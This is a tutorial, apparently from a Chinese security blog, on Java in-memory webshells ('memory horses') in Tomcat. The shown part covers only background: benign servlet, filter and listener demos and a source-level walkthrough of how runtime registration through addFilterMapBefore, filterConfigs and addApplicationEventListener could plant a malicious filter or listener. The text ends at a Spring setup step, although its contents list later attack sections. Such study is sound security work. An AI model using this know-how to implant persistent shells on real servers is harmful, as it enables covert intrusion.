 
Contents of this article:
- [1. Preface](#1-preface)
- [2. Pre-knowledge](#2-pre-knowledge)
  - [2.1 Servlet containers with Engine, Host, Context and Wrapper](#21-servlet-containers-with-engine-host-context-and-wrapper)
  - [2.2 Write a simple servlet](#22-write-a-simple-servlet)
  - [2.3 From the code level, servlet initialization and loading process](#23-from-the-code-level-servlet-initialization-and-loading-process)
    - [2.3.1 Analysis of servlet initialization process](#231-analysis-of-servlet-initialization-process)
    - [2.3.2 servlet loading process analysis](#232-servlet-loading-process-analysis)
  - [2.4 Filter containers and FilterDefs、FilterConfigs、FilterMaps、FilterChain](#24-filter-containers-and-filterdefsfilterconfigsfiltermapsfilterchain)
  - [2.5 Write a simple Filter](#25-write-a-simple-filter)
  - [2.6 Analyze the overall process of Filter operation from the code level](#26-analyze-the-overall-process-of-filter-operation-from-the-code-level)
  - [2.7 Listener brief introduction](#27-listener-brief-introduction)
  - [2.8 Write a simple Listener（ServletRequestListener）](#28-write-a-simple-listener-servletrequestlistener)
  - [2.9 Analyze the overall process of Listener operation from the code level](#29-analyze-the-overall-process-of-listener-operation-from-the-code-level)
  - [2.10 Simple spring project construction](#210-simple-spring-project-construction)
    - [2.10.1 Write a simple Spring Controller](#2101-write-a-simple-spring-controller)
    - [2.10.2 Write a simple Spring Interceptor](#2102-write-a-simple-spring-interceptor)
    - [2.10.3 Write a simple Spring WebFlux Demo (based on Netty)](#2103-write-a-simple-spring-webflux-demo-based-on-netty)
  - [2.11 Spring MVC Introduction](#211-spring-mvc-introduction)
    - [2.11.1 Spring MVC nine components](#2111-spring-mvc-nine-components)
    - [2.11.2 Simple source code analysis](#2112-simple-source-code-analysis)
      - [2.11.2.1 Initialization of nine components](#21121-initialization-of-nine-components)
      - [2.11.2.2 Establishment of the relationship between url and controller](#21122-establishment-of-the-relationship-between-url-and-controller)
      - [2.11.2.3 Spring Interceptor introduction and execution process analysis](#21123-spring-interceptor-introduction-and-execution-process-analysis)
  - [2.12 Introduction to Spring WebFlux and code debugging analysis](#212-introduction-to-spring-webflux-and-code-debugging-analysis)
    - [2.12.1 What is Mono？](#2121-what-is-mono)
    - [2.12.2 What is Flux？](#2122-what-is-flux)
    - [2.12.3 Spring WebFlux startup process analysis](#2123-spring-webflux-startup-process-analysis)
    - [2.12.4 Analysis of Spring WebFlux request processing process](#2124-analysis-of-spring-webflux-request-processing-process)
    - [2.12.5 Analysis of the operation process of Spring WebFlux filter WebFilter](#2125-analysis-of-the-operation-process-of-spring-webflux-filter-webfilter)
  - [2.13 Tomcat Valve introduction and running process analysis](#213-tomcat-valve-introduction-and-running-process-analysis)
    - [2.13.1 Valves and pipes](#2131-valves-and-pipes)
    - [2.13.2 Write a simple demo of Tomcat Valve](#2132-write-a-simple-demo-of-tomcat-valve)
    - [2.13.3 Analysis of Tomcat Valve's idea of ​​entering memory horse](#2133-analysis-of-tomcat-valves-idea-of-entering-memory-horse)
  - [2.14 Tomcat Upgrade introduction and analysis of the idea of ​​injecting into memory horses](#214-tomcat-upgrade-introduction-and-analysis-of-the-idea-of-injecting-into-memory-horses)
    - [2.14.1 Write a simple Tomcat Upgrade demo](#2141-write-a-simple-tomcat-upgrade-demo)
      - [2.14.1.1 Build with SpringBoot](#21411-build-with-springboot)
      - [2.14.1.2 Built with Tomcat](#21412-built-with-tomcat)
    - [2.14.2 Tomcat Upgrade memory horse introduction and related code debugging analysis](#2142-tomcat-upgrade-memory-horse-introduction-and-related-code-debugging-analysis)
  - [2.15 Introduction to Tomcat Executor Memory Horse and Analysis of Ideas for Input Memory Horse](#215-introduction-to-tomcat-executor-memory-horse-and-analysis-of-ideas-for-input-memory-horse)
    - [2.15.1](#2151)
    - [2.15.2 Tomcat Executor memory horse introduction and code debugging analysis](#2152-tomcat-executor-memory-horse-introduction-and-code-debugging-analysis)
      - [2.15.2.1 Endpoint's five components](#21521-endpoints-five-components)
      - [2.15.2.2 Endpoint Classification](#21522-endpoint-classification)
      - [2.15.2.3 Executor related code analysis](#21523-executor-related-code-analysis)
- [3. Traditional web-type memory horse](#3-traditional-web-type-memory-horse)
  - [3.1 Servlet memory horse](#31-servlet-memory-horse)
    - [3.1.1 Simple servlet memory horse demo writing](#311-simple-servlet-memory-horse-demo-writing)
    - [3.1.2 servlet memory horse demo code analysis](#312-servlet-memory-horse-demo-code-analysis)
    - [3.1.3 Understanding of StandardContext, ApplicationContext, ServletContext](#313-understanding-of-standardcontext-applicationcontext-servletcontext)
  - [3.2 Filter memory horse](#32-filter-memory-horse)
    - [3.2.1 Simple filter memory horse demo writing](#321-simple-filter-memory-horse-demo-writing)
    - [3.2.2 servlet memory horse demo code analysis](#322-servlet-memory-horse-demo-code-analysis)
    - [3.2.3 Writing of filter memory horse under tomcat6](#323-writing-of-filter-memory-horse-under-tomcat6)
  - [3.3 Listener memory horse](#33-listener-memory-horse)
    - [3.3.1 Simple Listener memory horse demo written](#331-simple-listener-memory-horse-demo-written)
    - [3.3.2 Listener memory horse demo code analysis](#332-listener-memory-horse-demo-code-analysis)
- [4. Spring MVC frame-type memory horse](#4-spring-mvc-frame-type-memory-horse)
  - [4.1 Spring Controller memory horse](#41-spring-controller-memory-horse)
    - [4.1.1 Simple Spring Controller type memory horse demo writing](#411-simple-spring-controller-type-memory-horse-demo-writing)
    - [4.1.2 Spring Controller memory horse demo code analysis](#412-spring-controller-memory-horse-demo-code-analysis)
  - [4.2 Spring Interceptor type memory horse](#42-spring-interceptor-type-memory-horse)
  - [4.3 Spring WebFlux Memory Horse](#43-spring-webflux-memory-horse)
    - [4.3.1 Simple Spring WebFlux memory horse demo written](#431-simple-spring-webflux-memory-horse-demo-written)
    - [4.3.2 Spring WebFlux memory horse demo code analysis](#432-spring-webflux-memory-horse-demo-code-analysis)
- [5. Middleware memory horse](#5-middleware-memory-horse)
  - [5.1 Tomcat Valve type memory horse](#51-tomcat-valve-type-memory-horse)
  - [5.2 Tomcat Upgrade Memory Horse](#52-tomcat-upgrade-memory-horse)
  - [5.3 Tomcat Executor Memory Horse](#53-tomcat-executor-memory-horse)
- [6. Thanks](#6-thanks)

# 1. Preface

&ensp;&ensp;&ensp;&ensp;The article about zero-based learning I wrote before `Fastjson` received a very good response. Many masters chatted with me on WeChat in the background of the official account to express their gratitude. In fact, it’s nothing, everyone started from scratch. There are many articles on the Internet, and only a few articles have clear pictures and clear text descriptions. Many times, novices may not know what the author means because he does not describe a certain place clearly, which is very painful; or the articles are different in object orientation, and the pre-knowledge is not solid, which makes many things incomprehensible. I have experienced these pain points. However, as I read more and more codes, my knowledge gradually becomes richer, and the more times I debug, the more handy I will be in dealing with various problems. The memory horse   
&ensp;&ensp;&ensp;&ensp;The `Java` memory horse discussed in this article is an indispensable part of `Java` security. It has rich and beautiful content, and it is fascinating to study it, and it is intoxicated by lingering in it. I refer to the classification method given by Master `Su18` more than a year ago in this article published in the `Goby` community (`https://nosec.org/home/detail/5049.html`)，The entire `java` memory horse series is divided into the following parts: traditional `web` type、`spring` series frame type, middleware type, other memory horses (`Websocket/Jsp/thread type/RMI`)、`Agent` type memory horse, practical memory horse input (`Jetty`/`Weblogic`/`Shiro`/`Struts2`/`GlassFish`/`xxl-job`...) and memory horse.  
&ensp;&ensp;&ensp;&ensp;OK, let's talk less and start here.

# 2. Pre-knowledge

Except for special instructions in this article，`jdk1.8.0_202`+ `tomcat 9.0.85` is used, and the latter download address is:
> https://dlcdn.apache.org/tomcat/tomcat-9/v9.0.85/bin/apache-tomcat-9.0.85-windows-x64.zip

[tomcat-9.0.85-windows-x64.zip](Files/tomcat-9.0.85-windows-x64.zip)

[jdk-8u202-window-x64.exe](https://www.dropbox.com/scl/fi/ynb3rql2qyba4zkygkz70/jdk-8u202-windows-x64.exe?rlkey=z3l1sc024ktfae5gg8nfvfxuz&st=quxh6zte&dl=0)

## 2.1 Servlet containers with Engine, Host, Context and Wrapper

I searched for this part for a long time, and finally encountered a pretty concise and easy-to-understand article in a lot of profound/trash articles.

> Original address: https://pankas.top/2023/11/08/java%E5%86%85%E5%AD%98%E9%A9%AC%E7%AC%94%E8%AE%B0/

Here, the original text is quoted, and it is briefly summarized:

`Tomcat` designed four types of containers, namely `Engine`, `Host`, `Context` and `Wrapper`, the relationship is as follows:


This can be seen from the configuration file `server.xml` of `Tomcat`.

At this time, imagine a scenario: We want to visit `https://manage.xxx.com:8080/user/list` at this time, how does `tomcat` implement request positioning to a specific `servlet`? For this `tomcat`, a `Mapper` was designed, which preserves the mapping relationship between the container component and the access path.

Then start four steps:

1. Select `Service` and `Engine` according to the protocol and port number.

   We know that each connector of Tomcat listens to different ports, such as the default HTTP connector listens to port 8080 and the default AJP connector listens to port 8009. The URL in the example above accesses port 8080, so this request will be received by the HTTP connector, and a connector belongs to a Service component, so the Service component is determined. We also know that in addition to multiple connectors, a `Service` component also has a container component, specifically an `Engine` container. Therefore, if the `Service` is determined, it means that the `Engine` is also confirmed.

2. Select `Host` according to the domain name.

   After the `Service` and `Engine` are determined, the `Mapper` component searches for the corresponding `Host` container through the domain name in `url`. For example, the domain name accessed by `url` in the example is `manage.xxx.com`, so the `Mapper` will find the `Host1` container.

3. Find the `Context` component according to the `url` path.

   After the `Host` is determined, the `Mapper` matches the path of the corresponding `Web` application according to the path of `url`. For example, in the example, the `/user` is accessed, so the `Context1` container is found.

4. Find `Wrapper`(`Servlet`) according to the `url` path.

   After the `Context` is determined, the `Mapper` then finds the specific `Wrapper` and `Servlet` based on the `Servlet` map path configured in `web.xml`, such as the `/list` of `Wrapper1` here.


The `Context` here is translated as a context, which includes the basic environment for the `servlet` to run; the `Wrapper` here is translated as a wrapper, which is responsible for managing a `servlet`, including its loading, initialization, execution and resource recycling.

Regarding the design of the connector in the picture above, you can continue to refer to the author's blog post:

> https://www.maishuren.top/archives/yi-bu-bu-dai-ni-le-jie-tomcat-zhong-de-lian-jie-qi-shi-ru-he-she-ji-de

After writing it, I found another excellent article, which is posted here for your reference. It is about the principle analysis of the `tomcat` architecture:

> https://blog.nowcoder.net/n/0c4b545949344aa0b313f22df9ac2c09

## 2.2 Write a simple servlet

The `pom.xml` file is as follows:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<project xmlns="http://maven.apache.org/POM/4.0.0"
         xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 http://maven.apache.org/xsd/maven-4.0.0.xsd">
    <modelVersion>4.0.0</modelVersion>

    <groupId>org.example</groupId>
    <artifactId>servletMemoryShell</artifactId>
    <version>1.0-SNAPSHOT</version>

    <properties>
        <maven.compiler.source>8</maven.compiler.source>
        <maven.compiler.target>8</maven.compiler.target>
        <project.build.sourceEncoding>UTF-8</project.build.sourceEncoding>
    </properties>

    <dependencies>
        <dependency>
            <groupId>javax.servlet</groupId>
            <artifactId>javax.servlet-api</artifactId>
            <version>4.0.1</version>
        </dependency>
    </dependencies>

</project>
```

Synchronize dependencies:


The `TestServlet.java` code is as follows:

```java
package org.example;
import java.io.IOException;
import javax.servlet.annotation.WebServlet;
import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;

@WebServlet("/test")
public class TestServlet extends HttpServlet {
    @Override
    protected void doGet(HttpServletRequest req, HttpServletResponse resp) throws IOException {
        resp.getWriter().write("hello world");
    }
}
```

Then configure the `tomcat` environment required for the project to run:


Then configure `artifacts` and click `fix` directly:


Then add the `web` module:


After running, visit http://localhost:8080/testServlet/test:


## 2.3 From the code level, servlet initialization and loading process

Main reference articles:

> https://longlone.top/安全/java/java安全/内存马/Tomcat-Servlet型/

We do not use the `tomcat` we downloaded to run our project here, we use the embedded `tomcat`, which is called `tomcat-embed-core`. Regarding dynamic debugging, I want to save trouble and use `tomcat-embed-core` directly. Of course, you can also debug and directly debug the `tomcat` source code. For the environment construction method, please refer to the article of Master Skay:

> https://mp.weixin.qq.com/s/DMVcqtiNG9gMdrBUyCRCgw

We reopen a project, and the file code is as follows:

`pom.xml`：

```xml
<?xml version="1.0" encoding="UTF-8"?>
<project xmlns="http://maven.apache.org/POM/4.0.0"
         xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 http://maven.apache.org/xsd/maven-4.0.0.xsd">
    <modelVersion>4.0.0</modelVersion>

    <groupId>org.example</groupId>
    <artifactId>servletMemoryShell</artifactId>
    <version>1.0-SNAPSHOT</version>

    <properties>
        <maven.compiler.source>8</maven.compiler.source>
        <maven.compiler.target>8</maven.compiler.target>
        <project.build.sourceEncoding>UTF-8</project.build.sourceEncoding>
    </properties>

    <dependencies>
        <dependency>
            <groupId>org.apache.tomcat.embed</groupId>
            <artifactId>tomcat-embed-core</artifactId>
            <version>9.0.83</version>
            <scope>compile</scope>
        </dependency>
        <dependency>
            <groupId>org.apache.tomcat.embed</groupId>
            <artifactId>tomcat-embed-jasper</artifactId>
            <version>9.0.83</version>
            <scope>compile</scope>
        </dependency>
    </dependencies>

</project>
```

`Main.java`：

```java
package org.example;

import org.apache.catalina.Context;
import org.apache.catalina.LifecycleException;
import org.apache.catalina.startup.Tomcat;
import java.io.File;

public class Main {
    public static void main(String[] args) throws LifecycleException {
        Tomcat tomcat = new Tomcat();
        tomcat.getConnector(); //This line of code needs to be added to tomcat 9.0 or above, refer to:https://blog.csdn.net/qq_42944840/article/details/116349603
        Context context = tomcat.addWebapp("", new File(".").getAbsolutePath());
        Tomcat.addServlet(context, "helloServlet", new HelloServlet());
        context.addServletMappingDecoded("/hello", "helloServlet");
        tomcat.start();
        tomcat.getServer().await();
    }
}
```

`HelloServlet.java`：

```java
package org.example;

import javax.servlet.ServletException;
import javax.servlet.annotation.WebServlet;
import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.IOException;
import java.io.PrintWriter;

@WebServlet("/hello")
public class HelloServlet extends HttpServlet {
    protected void doGet(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {
        response.setContentType("text/html");
        PrintWriter out = response.getWriter();
        out.println("<html><body>");
        out.println("Hello, World!");
        out.println("</body></html>");
    }
}
```

### 2.3.1 Analysis of servlet initialization process

We debug at `org.apache.catalina.core.StandardWrapper#setServletClass`:


We tried to press `Ctrl+left key` to track its upper call location, but it was prompted that we could not find it, so we need to press `Ctrl+Alt+F7` twice:


Then you can see that the upper call location is located at `org.apache.catalina.startup.ContextConfig#configureContext`:


Next, let's look at the following code in detail:


```java
for (ServletDef servlet : webxml.getServlets().values()) {
            Wrapper wrapper = context.createWrapper();
            if (servlet.getLoadOnStartup() != null) {
                wrapper.setLoadOnStartup(servlet.getLoadOnStartup().intValue());
            }
            if (servlet.getEnabled() != null) {
                wrapper.setEnabled(servlet.getEnabled().booleanValue());
            }
            wrapper.setName(servlet.getServletName());
            Map<String,String> params = servlet.getParameterMap();
            for (Entry<String, String> entry : params.entrySet()) {
                wrapper.addInitParameter(entry.getKey(), entry.getValue());
            }
            wrapper.setRunAs(servlet.getRunAs());
            Set<SecurityRoleRef> roleRefs = servlet.getSecurityRoleRefs();
            for (SecurityRoleRef roleRef : roleRefs) {
                wrapper.addSecurityReference(
                        roleRef.getName(), roleRef.getLink());
            }
            wrapper.setServletClass(servlet.getServletClass());
            MultipartDef multipartdef = servlet.getMultipartDef();
            if (multipartdef != null) {
                long maxFileSize = -1;
                long maxRequestSize = -1;
                int fileSizeThreshold = 0;

                if(null != multipartdef.getMaxFileSize()) {
                    maxFileSize = Long.parseLong(multipartdef.getMaxFileSize());
                }
                if(null != multipartdef.getMaxRequestSize()) {
                    maxRequestSize = Long.parseLong(multipartdef.getMaxRequestSize());
                }
                if(null != multipartdef.getFileSizeThreshold()) {
                    fileSizeThreshold = Integer.parseInt(multipartdef.getFileSizeThreshold());
                }

                wrapper.setMultipartConfigElement(new MultipartConfigElement(
                        multipartdef.getLocation(),
                        maxFileSize,
                        maxRequestSize,
                        fileSizeThreshold));
            }
            if (servlet.getAsyncSupported() != null) {
                wrapper.setAsyncSupported(
                        servlet.getAsyncSupported().booleanValue());
            }
            wrapper.setOverridable(servlet.isOverridable());
            context.addChild(wrapper);
        }
        for (Entry<String, String> entry :
                webxml.getServletMappings().entrySet()) {
            context.addServletMappingDecoded(entry.getKey(), entry.getValue());
        }
```

First, all Servlet definitions obtained through `webxml.getServlets()` and create a loop; then create a `Wrapper` object, and set the loading order of `Servlet`, whether it is enabled (that is, get the value of the `</load-on-startup>` tag), the name of `Servlet`; then iterate over the initialization parameters of `Servlet` and set it to `Wrapper`, and handle the security role Reference, add roles and corresponding links to `Wrapper`; if the `Servlet` definition contains file upload configuration, set `MultipartConfigElement` according to the configuration information; set whether `Servlet` supports asynchronous operations; add the configured `Context.addChild(wrapper);` to `Context` to complete the initialization process of `Servlet`.

The last `for` loop nested in the large `for` loop above is responsible for processing the `url` mapping of `Servlet`, associating the `url` of `Servlet` with the `Servlet` name.

In other words, the initialization of `Servlet` mainly goes through the following six steps:

- Create a `Wapper` object;
- Set the value of `LoadOnStartUp` of `Servlet`;
- Set the name of `Servlet`;
- Set the `class` of `Servlet`;
- Add the configured `Wrapper` to the `Context`;
- Map `url` and `servlet` classes

### 2.3.2 servlet loading process analysis

We set a breakpoint here in `org.apache.catalina.core.StandardWrapper#loadServlet` for debugging, focusing on `org.apache.catalina.core.StandardContext#startInternal`:


As you can see, the loading order is `Listener`-->`Filter`-->`Servlet`:


You can see that the code in the red box above calls `org.apache.catalina.core.StandardContext#loadOnStartup`, and `Ctrl+left key` follows up with the method. The code is as follows:
```java
public boolean loadOnStartup(Container children[]) {
    TreeMap<Integer,ArrayList<Wrapper>> map = new TreeMap<>();
    for (Container child : children) {
        Wrapper wrapper = (Wrapper) child;
        int loadOnStartup = wrapper.getLoadOnStartup();
        if (loadOnStartup < 0) {
            continue;
        }
        Integer key = Integer.valueOf(loadOnStartup);
        map.computeIfAbsent(key, k -> new ArrayList<>()).add(wrapper);
    }
    for (ArrayList<Wrapper> list : map.values()) {
        for (Wrapper wrapper : list) {
            try {
                wrapper.load();
            } catch (ServletException e) {
                getLogger().error(
                        sm.getString("standardContext.loadOnStartup.loadException", getName(), wrapper.getName()),
                        StandardWrapper.getRootCause(e));
                if (getComputedFailCtxIfServletStartFails()) {
                    return false;
                }
            }
        }
    }
    return true;
}
```

As you can see, this code first creates a `TreeMap`, then iterates over the incoming `Container` array, takes the loadOnStartup value of each `Servlet` as a key, and stores the corresponding `Wrapper` object in the corresponding list; if the `loadOnStartup` value is a negative number, it will not be loaded unless you request access to it; if it is a non-negative number, then load it in the ascending order of this `loadOnStartup`.

## 2.4 Filter containers and FilterDefs、FilterConfigs、FilterMaps、FilterChain

To be clear at the beginning, the `Filter` container is used to filter and process requests and responses. The following picture is remade based on the picture in the `Skay` master's article:

> https://mp.weixin.qq.com/s/eI-50-_W89eN8tsKi-5j4g


As can be seen from the above figure, this `filter` is a level. The client's request will only reach the `Servlet` after passing the `filter`. Then if we dynamically create a `filter` and put it in the front, our `filter` will be executed first. When we add malicious code to the `filter`, we can implement command execution and form a memory horse.

These nouns are actually easy to understand. First, you need to define the filter `FilterDef`. The array that stores these `FilterDef` is called `FilterDefs`. Each `FilterDef` defines a specific filter, including description information, name, filter instance, and `class`, etc. This can be seen from the code of `org/apache/tomcat/util/descriptor/web/FilterDef.java`; then `FilterDefs`, which is just an abstract definition of filters, and `FilterConfigs` is the specific configuration of these filters. For example, we can define specific configuration parameters for each filter to meet the needs of the system; followed by `FilterMaps`, which is used to map `FilterConfigs` to a specific request path or other identifier, so that when the system processes the request, it can find the corresponding `FilterConfigs` according to the request path or identifier, thereby determining the filter chain to be executed; and `FilterChain` is a chain structure composed of multiple `FilterConfigs`, which defines the execution order of the filter. When processing the request, the system will execute each filter in sequence in the order in `FilterChain` to filter and process the request.

## 2.5 Write a simple Filter

We continue to use the environment we built in `2.2` before and add `TestFilter.java`:

```java
package org.example;

import javax.servlet.*;
import javax.servlet.annotation.WebFilter;
import java.io.IOException;

@WebFilter("/test")
public class TestFilter implements Filter {

    public void init(FilterConfig filterConfig) {
        System.out.println("[*] Filter初始化创建");
    }

    public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {
        System.out.println("[*] Filter执行过滤操作");
        filterChain.doFilter(servletRequest, servletResponse);
    }

    public void destroy() {
        System.out.println("[*] Filter已销毁");
    }
}
```

After running, the console outputs `[*] Filter initialization creation`. When we access the `/test` route, the console continues to output `[*] Filter to perform filtering operation. When we end `tomcat`, the `destroy` method will be triggered, thus outputting `[*] Filter destroyed`:


## 2.6 Analyze the overall process of Filter operation from the code level

We debug the `doFilter` function in the above `demo` breakpoint here:


follow up`org.apache.catalina.core.StandardWrapperValve#invoke`：

```java
filterChain.doFilter(request.getRequest(), response.getResponse());
```

Continue to follow up on the variable `filterChain` and find the code at the definition:

```java
ApplicationFilterChain filterChain = ApplicationFilterFactory.createFilterChain(request, wrapper, servlet);
```


View this method（`org.apache.catalina.core.ApplicationFilterFactory#createFilterChain`）：

```java
public static ApplicationFilterChain createFilterChain(ServletRequest request, Wrapper wrapper, Servlet servlet) {
    if (servlet == null) {
        return null;
    } else {
        ApplicationFilterChain filterChain = null;
        if (request instanceof Request) {
            Request req = (Request)request;
            if (Globals.IS_SECURITY_ENABLED) {
                filterChain = new ApplicationFilterChain();
            } else {
                filterChain = (ApplicationFilterChain)req.getFilterChain();
                if (filterChain == null) {
                    filterChain = new ApplicationFilterChain();
                    req.setFilterChain(filterChain);
                }
            }
        } else {
            filterChain = new ApplicationFilterChain();
        }

        filterChain.setServlet(servlet);
        filterChain.setServletSupportsAsync(wrapper.isAsyncSupported());
        StandardContext context = (StandardContext)wrapper.getParent();
        FilterMap[] filterMaps = context.findFilterMaps();
        if (filterMaps != null && filterMaps.length != 0) {
            DispatcherType dispatcher = (DispatcherType)request.getAttribute("org.apache.catalina.core.DISPATCHER_TYPE");
            String requestPath = null;
            Object attribute = request.getAttribute("org.apache.catalina.core.DISPATCHER_REQUEST_PATH");
            if (attribute != null) {
                requestPath = attribute.toString();
            }

            String servletName = wrapper.getName();
            FilterMap[] var10 = filterMaps;
            int var11 = filterMaps.length;

            int var12;
            FilterMap filterMap;
            ApplicationFilterConfig filterConfig;
            for(var12 = 0; var12 < var11; ++var12) {
                filterMap = var10[var12];
                if (matchDispatcher(filterMap, dispatcher) && matchFiltersURL(filterMap, requestPath)) {
                    filterConfig = (ApplicationFilterConfig)context.findFilterConfig(filterMap.getFilterName());
                    if (filterConfig != null) {
                        filterChain.addFilter(filterConfig);
                    }
                }
            }

            var10 = filterMaps;
            var11 = filterMaps.length;

            for(var12 = 0; var12 < var11; ++var12) {
                filterMap = var10[var12];
                if (matchDispatcher(filterMap, dispatcher) && matchFiltersServlet(filterMap, servletName)) {
                    filterConfig = (ApplicationFilterConfig)context.findFilterConfig(filterMap.getFilterName());
                    if (filterConfig != null) {
                        filterChain.addFilter(filterConfig);
                    }
                }
            }

            return filterChain;
        } else {
            return filterChain;
        }
    }
}
```

We debug the breakpoint at the line defining `filterMaps` below. You can see that this code first determines whether `servlet` is empty. If `servlet` is null, it means that there is no valid `servlet` and the filter chain cannot be created. Then, it is classified and processed according to the type of the incoming `ServletRequest`. If it is `Request` and security is enabled, then create a new `ApplicationFilterChain`. If it is not enabled, then try to get the existing filter chain from the request. , if it does not exist, create a new one; then set the Servlet and asynchronous support attributes of the filter chain, which is nothing to say; the key point is to get the parent context (`StandardContext`) from the `Wrapper`, and then get the filter map array defined in the context (`FilterMap`); finally iterate over the filter map array, match the filter according to the requested `DispatcherType` and the request path, and add the matching filter to the filter chain, and finally return the created or updated filter chain.


From the two pictures above, we can also clearly see the structures of `filterConfig`, `filterMap`, and `FilterDef`.

Follow up on the `filterChain.doFilter` method just now, located in `org.apache.catalina.core.ApplicationFilterChain#doFilter`:



You can see that the `org.apache.catalina.core.ApplicationFilterChain#internalDoFilter` method is called. In this method, you will get `filterConfig` and `filter` in sequence:


OK, the process ends here, but our purpose is to enter the memory horse, that is, to dynamically create a `Filter`. Looking back on the previous debugging process, we found that there are two key points in the `createFilterChain` function:


That is, here I pointed out the `org.apache.catalina.core.StandardContext#findFilterMaps` and `org.apache.catalina.core.StandardContext#findFilterConfig` with arrows.

The implementation code of both is pasted as follows:

```java
public FilterMap[] findFilterMaps() {
    return filterMaps.asArray();
}

public FilterConfig findFilterConfig(String name) {
    synchronized (filterDefs) {
        return filterConfigs.get(name);
    }
}
```

In other words, we only need to find the existing context and insert our customized malicious filter map and filter configuration into it to dynamically add filters.

That is, our current problem translates to how to add `filterMap` and `filterConfig`. We search for the keyword `addFilterMap` and we can see that there are two related methods in `StandardContext`:


The comments also clearly state that `addFilterMap` is to add a new new map we customized at the end of a set of maps; while `addFilterMapBefore` will automatically throw the `filterMap` we created to the first place without manually sorting it, which is exactly what we need!

You can see that the first step in the `addFilterMapBefore` function above is to execute the function `org.apache.catalina.core.StandardContext#validateFilterMap`. Click to see:


I found that we need to ensure that when we look for `filterDef` according to `filterName`, we have to find it, that is, we have to customize `filterDef` and add it to `filterDefs`. However, this is also very simple and there is a corresponding method, that is `org.apache.catalina.core.StandardContext#addFilterDef`:


Get it done, continue to see how to add `filterConfig`. After searching, there is no such method as `addFilterConfig` above:


But there are two methods: `filterStart` and `filterStop`:


That is to say, we can only obtain relevant attributes through reflection and add them.

## 2.7 Listener brief introduction


From the above figure, we can see that `Listener` was first loaded, so based on the ideas we learned earlier, if I dynamically register a malicious `Listener`, I can form another memory horse.
In `tomcat`, there are several common `Listener`:

- `ServletContextListener` is used to listen for the startup and shutdown events of the entire Web application. It requires two methods: `contextInitialized` and `contextDestroyed`;
- `ServletRequestListener` is used to listen for the creation and destruction events of `HTTP` request. It requires two methods: `requestInitialized` and `requestDestroyed`;
- `HttpSessionListener` is used to listen to the creation and destruction events of the `HTTP` session, and two methods need to be implemented: `sessionCreated` and `sessionDestroyed` are used;
- `HttpSessionAttributeListener`, to listen for the addition, deletion and replacement events of the `HTTP` session attribute, `attributeAdded`, `attributeRemoved` and `attributeReplaced` three methods are required.
Obviously, `ServletRequestListener` is the best for memory horses, because it can trigger operations as long as it accesses the service.

## 2.8 Write a simple Listener (ServletRequestListener)

We continue to use the environment we built in `2.2` before, replace the previous `TestFilter.java`, and rewrite a `TestListener.java`:

```java
package org.example;

import javax.servlet.*;
import javax.servlet.annotation.WebListener;

@WebListener("/test")
public class TestListener implements ServletRequestListener {
    @Override
    public void requestDestroyed(ServletRequestEvent sre) {
        System.out.println("[+] destroy TestListener");
    }

    @Override
    public void requestInitialized(ServletRequestEvent sre) {
        System.out.println("[+] initial TestListener");
    }
}
```

Running results:


## 2.9 Analyze the overall process of Listener operation from the code level

We breakpoint debugging at two places as shown in the figure:


Turn down to see the call to the `org.apache.catalina.core.StandardContext#listenerStart` method:


The code is easy to understand, and there are two main things to do. One is to find the names of these `Listerners` through `findApplicationListeners`; the other is to instantiate these `listeners`:


Then there is the classification arrangement. The `ServletRequestListener` we need is placed in the `eventListeners`:


After the classification is completed, do something like this:

```java
eventListeners.addAll(Arrays.asList(getApplicationEventListeners()));
```

`Arrays.asList(...)` is easy to understand, which means converting an array into a list; `eventListeners.addAll(...)` is easy to understand, which means adding the content in brackets to the previously instantiated listener list `eventListeners`. Regarding the method `org.apache.catalina.core.StandardContext#getApplicationEventListeners` in the brackets, we click on it and the code is as follows:

```java
@Override
public Object[] getApplicationEventListeners() {
    return applicationEventListenersList.toArray();
}
```

It is also very simple and clear, which is to convert `applicationEventListenersList` into an array containing objects of any type, that is, an array that may contain application event listeners of various types.

In summary, this is in one sentence, there are two sources of `Listener`. One is the `Listener` obtained from instantiation based on the `web.xml` file or `@WebListener` annotation; the other is the `Listener` in `applicationEventListenersList`. We definitely can't control the previous ones because this is for developers, not for hackers, hahaha. Then look for it. Is there any function similar to the `addFilterConfig` we used before? Of course there is, look up `ctrl+left button`:


The method name is `addApplicationEventListener`. In `StandardContext.java`, the code is as follows, which perfectly meets our needs. It's so terrible:

```java
public void addApplicationEventListener(Object listener) {
    applicationEventListenersList.add(listener);
}
```

## 2.10 Simple spring project construction

Create a new project and set the `Server URL` to `https://start.aliyun.com/`:


